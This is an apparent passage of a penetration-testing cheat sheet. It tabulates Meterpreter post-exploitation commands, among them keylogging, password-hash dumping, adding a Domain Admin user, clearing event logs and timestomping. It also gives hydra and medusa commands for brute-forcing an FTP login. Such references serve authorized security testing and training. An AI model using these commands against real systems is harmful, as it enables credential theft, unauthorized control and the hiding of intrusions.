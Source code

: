 |`execute -f <cmd.exe> -i -t`|Execute cmd.exe with all available tokens.|
|`execute -f <cmd.exe> -i -H -t`|Execute cmd.exe with all available tokens and make it a hidden process.|
|`rev2self`|Revert back to the original user you used to compromise the target.|
|`reg <command>`|Interact, create, delete, query, set, and much more in the target’s registry.|
|`setdesktop <number>`|Switch to a different screen based on who is logged in.|
|`screenshot`|Take a screenshot of the target’s screen.|
|`upload <filename>`|Upload a file to the target.|
|`download <filename>`|Download a file from the target.|
|`keyscan_start`|Start sniffing keystrokes on the remote target.|
|`keyscan_dump`|Dump the remote keys captured on the target.|
|`keyscan_stop`|Stop sniffing keystrokes on the remote target.|
|`getprivs`|Get as many privileges as possible on the target.|
|`uictl enable <keyboard/mouse>`|Take control of the keyboard and/or mouse.|
|`background`|Run your current Meterpreter shell in the background.|
|`hashdump`|Dump all hashes on the target. use sniffer Load the sniffer module.|
|`sniffer_interfaces`|List the available interfaces on the target.|
|`sniffer_dump <interfaceID> pcapname`|Start sniffing on the remote target.|
|`sniffer_start <interfaceID> packet-buffer`|Start sniffing with a specific range for a packet buffer.|
|`sniffer_stats <interfaceID>`|Grab statistical information from the interface you are sniffing.|
|`sniffer_stop <interfaceID>`|Stop the sniffer.|
|`add_user <username> <password> -h <ip>`|Add a user on the remote target.|
|`add_group_user <"Domain Admins"> <username> -h <ip>`|Add a username to the Domain Administrators group on the remote target.|
|`clearev`|Clear the event log on the target machine.|
|`timestomp`|Change file attributes, such as creation date (antiforensics measure).|
|`reboot`|Reboot the target machine.|
|||


## Attacking common services

### Attacking FTP

| **Command**                                                              | **Description**                                      |
| ------------------------------------------------------------------------ | ---------------------------------------------------- |
| `ftp 192.168.2.142`                                                      | Connecting to the FTP server using the `ftp` client. |
| `nc -v 192.168.2.142 21`                                                 | Connecting to the FTP server using `netcat`.         |
| `hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142` | Brute-forcing the FTP service.                       |
| `medusa -U users.list  -P pws.list -h $ip  -M ftp -n 2121`               | Brute-forcing the FTP service.                       |

---